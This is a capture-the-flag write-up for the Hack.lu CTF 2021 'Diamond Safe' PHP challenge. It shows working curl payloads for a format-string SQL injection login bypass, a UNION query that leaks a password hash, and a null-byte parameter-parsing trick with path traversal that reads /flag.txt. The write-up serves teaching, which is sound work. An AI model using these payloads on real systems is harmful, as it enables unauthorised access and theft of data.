

# Hack.lu CTF 2021 - Diamond Safe (web/php)



[Hack.lu CTF](https://flu.xxx/) was a great surprise for me as a never heard about it before. And it's rated 94.98! It is organized by the official CTF team of the german Ruhr University Bochum (RUB), called [FluxFingers](https://fluxfingers.net/).

The Stock Market design in the page is great!
I had the time to take a look at only one challenge, and that was really fun and creative.

## The Challenge


In this challenge, made by [@kunte_](https://twitter.com/kunte_ctf), we have a vault for storing safe data (like a simpler Last Pass).
It is password-protected and without registration, so we also have to find our way in.

The challenge give us the php source code and docker compose configuration, so we have a place to start and test locally.

There is a vault page, but it is session-protected, so we have to bypass the Login anyway.

The challenge has 3 layers, the app containers:

nginx -> php-fpm -> mysql

Flag is located in **/flag.txt** inside the php-fpm docker container.

### Running Locally

1. Clone the repository:
```bash
$ git clone https://github.com/Neptunians/hack.lu-ctf-2021
Cloning into 'hack.lu-ctf-2021'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (60/60), done.
remote: Compressing objects: 100% (43/43), done.
remote: Total 60 (delta 10), reused 57 (delta 7), pack-reused 0
Unpacking objects: 100% (60/60), 2.11 MiB | 792.00 KiB/s, done.
neptunian:~/Downloads/tmp$
```

2. Enter the docker-compose dir:

```bash
$ cd hack.lu-ctf-2021/diamond-safe_26dd85a08b507ce268064e2015fb1f8c/public/
```

3. Call [Docker Compose](https://docs.docker.com/compose/install/):

```
$ docker-compose up
Starting public_db_1 ... done
Starting public_php-fpm_1 ... done
Starting public_web_1     ... done
Attaching to public_db_1, public_php-fpm_1, public_web_1
db_1       | 2021-11-02 15:28:27+00:00 [Note] [Entrypoint]: Entrypoint script for MySQL Server 5.7.36-1debian10 started.
... Lot of lines
web_1      | 2021/11/02 15:28:29 [notice] 1#1: start worker process 38
web_1      | 2021/11/02 15:28:29 [notice] 1#1: start worker process 39
```

The challenge must be running on: ```http://localhost:4444/```

*P.S: at the time of this writing, the challenge was still up, so I could show real challenge data.*

## Breaking the login

The source code is kind of big, so we won't get into the usual analysis of all the code.
First, let's analyze how to bypass the login.

### Database: Prepare Query

* [DB.class.php](https://github.com/Neptunians/hack.lu-ctf-2021/blob/main/diamond-safe_26dd85a08b507ce268064e2015fb1f8c/public/src/DB.class.php)

```php
public static function prepare($query, $args){
    if (is_null($query)){
        return;
    }
    if (strpos($query, '%') === false){
        error('%s not included in query!');
        return;
    }

    // get args
    $args = func_get_args();
    array_shift( $args );

    $args_is_array = false;
    if (is_array($args[0]) && count($args) == 1 ) {
        $args = $args[0];
        $args_is_array = true;
    }

    $count_format = substr_count($query, '%s');

    if($count_format !== count($args)){
        error('Wrong number of arguments!');
        return;
    }
    // escape
    foreach ($args as &$value){
        $value = static::$db->real_escape_string($value);
    }

    // prepare
    $query = str_replace("%s", "'%s'", $query);
    $query = vsprintf($query, $args);
    return $query;

}
```

#### **Summary**:
* This function "prepares" the query to run in the database, replacing the bind variables with actual values.
* It does not use real bind variables of the DB driver, but makes it's own implementation of it.
* It uses string formatting to replace the variables, like **"SELECT * FROM TABLES WHERE COL = %s"**, where **%s** is a string
* The function also receives the values for the variables, which can be an array.
* This function has two protection measures:
    * It uses the **real_escape_string** of the mysqli object, to replace any dangerous values in the bind variables, for SQL-injection purposes, like single quotes (**'**).
    * It replaces the **%s** formatted values for **'%s'**, so the formatted value at the end enclosed by single quotes.
* At last, it applies the string formatting with the **vsprintf** function, now that it is safe to replace the values. (Isn't it?)
* It does not run the query. It returns the formatted string, ready to run, with the **commit** function in our database class.

The fact that he made it's own implementation of a function so critical for security is the lead that we need. I took some time trying to find a direct vulnerability in this function to SQL-inject, but couldn't find.

The strategy taken here is flawed, but we can see it clearly in a later step.

### Login Validation

* [login.php](https://github.com/Neptunians/hack.lu-ctf-2021/blob/main/diamond-safe_26dd85a08b507ce268064e2015fb1f8c/public/src/login.php)

```php
if (isset($_POST['password'])){
    $query = db::prepare("SELECT * FROM `users` where password=sha1(%s)", $_POST['password']);

    if (isset($_POST['name'])){
        $query = db::prepare($query . " and name=%s", $_POST['name']);
    }
    else{
        $query = $query . " and name='default'";
    }
    $query = $query . " limit 1";

    $result = db::commit($query);

    if ($result->num_rows > 0){
        $_SESSION['is_auth'] = True;
        $_SESSION['user_agent'] = $_SERVER['HTTP_USER_AGENT'];
        $_SESSION['ip'] = get_ip();
        $_SESSION['user'] = $result->fetch_row()[1];

        success('Welcome to your vault!');
        redirect('vault.php', 2);
    }
    else{
        error('Wrong login or password.');
    }
}
```

#### **Summary**:
* This is only the authentication validation part of the login.php code.
* It first PREPAREs the DB query to validate the password, using sha1 function to encrypt the password and compare to the database already encrypted value.
* If there is a **name** parameter, prepares the (ALREADY PREPARED) SQL query, while concatenating the name validation. If there is no name, just use the "default".
* Calls the **commit** function to execute the final SQL query.
* If it returns at least one row, it gives the user an authentication session.
    * It gets the second column (username) and give it to the **user** session value.
* If it does not returns any line, just give the user an error message.

### Not-that-obvious flaw

Now that "query preparation strategy flaw" I mentioned before gets more evident.
In professional implementations, the query preparation returns a pointer to a SQL query where you can run without having to compile it again.

Here, it returns a string with the bind variable processed (but not executed). But note that **it calls the prepare function TWICE** if you send the **name** parameter. That is the opportunity we wanted.

Let's first understand what happens in a happy path:

* Assume we send the user **neptunian** and password **mysecret**.
* The call would be like this:

```bash
curl -v 'https://diamond-safe.flu.xxx/login.php' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5' \
  --data-raw 'password=mysecret&name=neptunian' \
  --compressed
```

* It will, at first, prepare the query with the password:

```sql
SELECT * FROM `users` where password=sha1(%s)
```

and after preparing:

```sql
SELECT * FROM `users` where password=sha1('mysecret')
```

* Then, it will concatenate the username:

```sql
SELECT * FROM `users` where password=sha1('mysecret') and name=%s
```

and after **PREPARING AGAIN WITH THE PREVIOUS STRING**:

```sql
SELECT * FROM `users` where password=sha1('mysecret') and name='neptunian'
```

This two-step preparation gives our breach. In the second time, it prepares the query wich already includes a string of our control: the password. If we inject a format string in the password, it will be processed!

Also note that it does not validate the data type of the name parameter, so we can send an array, which will be passed directly to the prepare function!

### Hacky Path


Let's first understand the problem:

* Assume we send the user as an array **["neptunian1", "neptunian2"]** and password **mysecret%s**.

The POST data would be:

```
password=mysecret%s&name[]=neptunian1&name[]=neptunian1
```

* Note that, since **name** is now an array, we send it twice, with brackets after the parameter name.
But we have to URLEncode it first:

```
password=mysecret%25s&name[]=neptunian1&name[]=neptunian1
```

* Now, that same first pass of preparation will end like this:

```sql
SELECT * FROM `users` where password=sha1('mysecret%s')
```

and after concatenating the name:

```sql
SELECT * FROM `users` where password=sha1('mysecret%s') and name=%s
```

Now we have 2 directives!
Since we sent an array to the name, it will format (using vsprintf) each one, in order and enclose it with - wait for it - single-quotes!

```sql
SELECT * FROM `users` where password=sha1('mysecret'neptunian1'') and name='neptunian2'
```

OK!! So we can't send single quotes in the values because it is filtered, but the second pass in the prepare function injects it for us! 
This version of the query will not work, since we generated an invalid SQL here, for simplicity purposes, but if we play a little bit more with the "first" name in the array, we can generate a valid query.

Let's change the first name from **neptunian1** to **) or 2<>(** and the second name to **default** (since is the existing user).

Now the generated query is the valid:

```sql
SELECT * FROM `users` where password=sha1('mysecret') or 2<>('') and name='default'
```

Let's try it in our local mysql docker from the challenge.

```
root@5ef6f217a963:/# mysql -u root -p                
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.36 MySQL Community Server (GPL)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use web
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> SELECT * FROM `users` where password=sha1('mysecret') or 2<>('') and name='default';
+----+---------+------------------------------------------+
| id | name    | password                                 |
+----+---------+------------------------------------------+
|  1 | default | 923b69c88c8af603e767f0a78f4e932170d6638b |
+----+---------+------------------------------------------+
1 row in set (0.00 sec)

mysql>
```

We got our SQL Injection plan!

### Breaking the login

Let's now prepare the POST data:

```
password=mysecret%s&name[]=) or 2<>(&name[]=default
```

We have to URLEncode the POST data values:

```javascript
$ node
Welcome to Node.js v14.12.0.
Type ".help" for more information.
> encodeURI('mysecret%s')
'mysecret%25s'
> encodeURI(') or 2<>(')
')%20or%202%3C%3E('
>
```

And we got our payload:

```
password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default
```

We are now ready to test our hack in the field, using our cookie value to login in the same session of the browser:

```bash
curl 'https://diamond-safe.flu.xxx/login.php' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5' \
  --data-raw 'password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default'
```

Enough of this bullshit. Run it!

```html
$ curl 'https://diamond-safe.flu.xxx/login.php' \
>   -H 'content-type: application/x-www-form-urlencoded' \
>   -H 'cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5' \
>   --data-raw 'password=mysecret%25s&name[]=)%20or%202%3C%3E(&name[]=default'
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>Diamond Safe</title>
        <meta charset="utf-8">
        <script src="/static/jquery-3.2.1.min.js"></script>
        <script src="/static/bootstrap.min.js"></script>
        <link rel="stylesheet" href="/static/bootstrap.min.css">
        <link rel="stylesheet" href="/static/main.css">
        <link rel="icon" type="image/png" href="/static/favicon.png">
    </head>
    <body>
        <div class="container">
            <br>
            <nav class="navbar navbar-default navbar">
                <div class="container-fluid">
                    <div class="navbar-header">
                        <a class="navbar-brand">Diamond Safe</a>
                    </div>
                    <ul class="nav navbar-nav">
                        <li><a href="/index.php">About</a></li>
                        <li class="active"><a href="/login.php">Login</a></li>
                    </ul>
                </div>
            </nav>
        </div>
        <div class="container container-body">
<div class='alert alert-success'><strong>Welcome to your vault!</strong></div><meta http-equiv='refresh' content='2;vault.php'>        <div class='footer'> 2021 | STOINKS AG</div><br>
    </body>
</html>
```
Hacked!

```Welcome to your vault!```


But wait... we don't have the flag yet. We only got in the game!

## Hunting the Flag

The Secure Files section of our Vault is the obvious lead here, since we can download files from the server. [My last last write-up](https://fireshellsecurity.team/asisctf-ascii-art-as-a-service/) on ASIS CTF 2021 was about a [Local File Inclusion - LFI](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion), so it was kind of automatic.

The link format for downloading files is this:

```text
https://diamond-safe.flu.xxx/download.php?h=f2d03c27433d3643ff5d20f1409cb013&file_name=FlagNotHere.txt
```

We have a file_name and a hash.

### Understanding The Download Protections

* [download.php](https://github.com/Neptunians/hack.lu-ctf-2021/blob/main/diamond-safe_26dd85a08b507ce268064e2015fb1f8c/public/src/download.php)

```php
include_once("functions.php");
include_once("config.php");


$_SESSION['CSRFToken'] = md5(random_bytes(32));

if (!isset($_SESSION['is_auth']) or !$_SESSION['is_auth']){
    redirect('login.php');
    die();
}

if(!isset($_GET['file_name']) or !is_string($_GET['file_name'])){
    redirect('vault.php');
    die();
}

if(!isset($_GET['h']) or !is_string($_GET['h'])){
    redirect('vault.php');
    die();
}

// check the hash
if(!check_url()){
    redirect('vault.php');
    die();
}


$file = '/var/www/files/'. $_GET['file_name'];
if (!file_exists($file)) {
    redirect('vault.php');
    die();
}
else{
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($file).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}
```

#### **Summary**:
* Validates that the user is authenticated.
* Validates the parameters **file_name** and **h**: non-empty and string.
* Checks the URL (Let's deep dive on it, because it checks for the hash)
* If the validation returns True, sends the file with this name, inside the /var/www/files/ directory.
    * It does not protect from [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) here. 
    * This is our probable LFI.

Seems fine except... we have to bypass this check_url() validation. Let's take a look:

* [functions.php](https://github.com/Neptunians/hack.lu-ctf-2021/blob/main/diamond-safe_26dd85a08b507ce268064e2015fb1f8c/public/src/download.php)

```php
function check_url(){
    // fixed bypasses with arrays in get parameters
    $query  = explode('&', $_SERVER['QUERY_STRING']);

    $params = array();
    foreach( $query as $param ){
        // prevent notice on explode() if $param has no '='
        if (strpos($param, '=') === false){
            $param += '=';
        }
        list($name, $value) = explode('=', $param, 2);
        $params[urldecode($name)] = urldecode($value);

    }

    if(!isset($params['file_name']) or !isset($params['h'])){
        return False;
    }

    $secret = getenv('SECURE_URL_SECRET');
    $hash = md5("{$secret}|{$params['file_name']}|{$secret}");

    if($hash === $params['h']){
        return True;
    }

    return False;
}
```

#### **Summary**:
* Takes the entire query string and break it in an array of strings (separated by "&")
* For each item, fills a **$param** dictionary with name and value, separating by "=".
* Use this parameter to check for **file_name** and **h**
* Generate the hash:
    * Get the server **SECURE_URL_SECRET** environment variable, which we don't have.
    * Prepare a string in the format ```SECURE_URL_SECRET|file_name|SECURE_URL_SECRET```.
    * Calculate the MD5 hash of this string.
* If the calculated hash is the same hash sent in **h**, return True, for validated URL.

### Hunting for the wrong flaws

At this point I got stuck for some time, trying different things.

* I first tried to generate a correct hash for my /flag.txt path traversal.
    * It didn't work, since it only generate hashes for files inside the /var/www/files/ directory.
* I guessed the **default** user password inside the database could be the same as the hash.
    * I got the server sha1 password by changing my sql injection a little bit:

```sql
SELECT * FROM `users` where password=sha1('mysecret') union all select 1, password, 2 from users where 2<>('') and name='default'
```

Since the second column is now the password (not username), it shows the **default** user sha1-encrypted password in the vault main page. But I couldn't crack the password.

* I guessed that the SECURE_URL_SECRET could be weak.
    * Since we have two MD5 hash samples, I tried to crack it.
    * I tried breaking it using the [in]famous rockyou wordlist.
    * For this, I generated a wordlist in the challenge format: ```<word>|Diamond.txt|<word>```
    * Of course, no luck :)
    * Kept the code (in the repo) just for fun.
* I even read some things about MD5 collisions but... I was playing solo, without some great crypto hackers from FireShell, and gave up pretty quickly.

I went back to the code analysis.

### Custom Implementations + Specification Ambiguity == Hacking

The obvious path to look was the custom implementation for reading the parameters in the **check_url** function. There is no reason to parse the ```$_SERVER['QUERY_STRING']```, when you can just ```$_GET['file_name']``` and ```$_GET['h']```. Even so, It kicked my ass.

The flaw must be some difference of this custom parsing versus the php-fpm parsing of the URL.
Different parsing implementations of the same complex or ambiguous specifications lead to some very interesting vulnerabilities. 

I got a flaw like this in the [m0lecon CTF 2021](https://m0lecon.it/), in a very interesting challenge called [Waffle](https://neptunian.medium.com/m0lecon-ctf-2021-teaser-bypassing-waf-5393c1c5f278), where we have different JSON Parsing implementations on Go and Python, leading to WAF bypass.

The key here was to try some different parsing behaviour (or buggy, or strange, ...) in both implementations. The intentation was to make the **file_name** be Diamond.txt inside ```$params``` the **check_url**, but a different **file_name** for download.php, so it would validate with one, but download another.

I just "fuzzied" some small changes, like putting a second file_name without the "=":

```text
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file_name
```

It worked to separate the validation from the download, beucase of the buggy ```$param += '='``` in **check_url()**, that generates null string instead of concatenation. But the file_name in download.php was still null and it was not enough to get the flag.

After some more fuzz... guessing, I got this:

```text
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file_name%00=../../../flag.txt
```

It turns out the ```%00``` is ignored in the php-fpm implementation, but not in the **check_url**. And then we got our LFI:

```bash
$ curl --path-as-is 'https://diamond-safe.flu.xxx/download.php?file_name=Diamond.txt&h=95f0dc5903ee9796c3503d2be76ad159&file_name%00=../../../flag.txt' \
>   -H 'Neptunian: neptunian-value' \
>   -H 'Cookie: PHPSESSID=3d9dc29debc998c9c40b3007319ebed5'

flag{lul_php_challenge_1n_2021_lul}
```

### Day is Won!

```flag{lul_php_challenge_1n_2021_lul}```


*Credits: https://www.deviantart.com/karatastamer/art/Victory-351114659*

## References

* Hack.lu CTF 2021: https://flu.xxx/
* CTF Time Event: https://ctftime.org/event/1452/
* Challenge Creator: [@kunte_](https://twitter.com/kunte_ctf)
* SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
* Format String Attack: https://owasp.org/www-community/attacks/Format_string_attack
* Local File Inclusion: https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
* Path Traversal: https://owasp.org/www-community/attacks/Path_Traversal
* ASIS CTF 2021 - ASCII Art as a Service: https://fireshellsecurity.team/asisctf-ascii-art-as-a-service/
* m0lecon CTF 2021 - Waffle Write-Up: https://neptunian.medium.com/m0lecon-ctf-2021-teaser-bypassing-waf-5393c1c5f278
* Repo with the artifacts discussed here: https://github.com/Neptunians/hack.lu-ctf-2021
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)